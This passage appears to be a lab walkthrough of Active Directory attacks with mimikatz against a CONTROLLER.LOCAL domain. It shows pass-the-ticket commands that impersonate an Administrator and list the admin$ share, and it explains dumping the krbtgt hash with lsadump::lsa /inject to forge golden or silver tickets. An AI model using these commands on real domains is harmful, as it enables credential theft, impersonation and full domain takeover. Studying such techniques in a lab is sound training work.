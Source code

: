 ## PASS THE TICKET
If you leave mimikatz, you will see that there are tickets in the directory. 
Copy the one that is interesting for you and return to mimiktatz
```cmd 
mimikatz.exe
```
This will cache the ticket and impersonate it
```cmd
kerberos::ptt [0;193f8c]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
```
- The ticket is like : [0;193f8c]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
- The output should be "* File : <Stuff> OK"
Let's just verify that it works by listing all cached tickets
You need to exit mimikatz so :
```cmd
exit
```
and
```cmd
klist
```

We now have impersonnated the ticket and have the same rights 
We can now list the admin$ share
```cmd
dir \\IP\admin$
```

# GOLDEN/SILVER TICKETS ATTACKS / MIMIKATZ
Mimikatz is also known to be a great tool to create Golden and Silver tickets
Silver tickets are stealther than the golden ones but quite less powerfull

In order to create a golden ticket, we need the KRBTGT = service account that create TGT with KDC  
In order to create a silver ticket, we only need any accessible account that can log into the desired service

## DUMP THE KRBTGT HASH
Starts mimikatz : 
```cmd
privilege::debug 
```
- ensure this outputs [privilege '20' ok] : 
```cmd
privilege::debug 
```
```cmd
lsadump::lsa /inject /name:krbtgt 
```
- This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.

The output will be useful for the next step :
["Mimikatz"](images/mimikatz_lsadump.png)
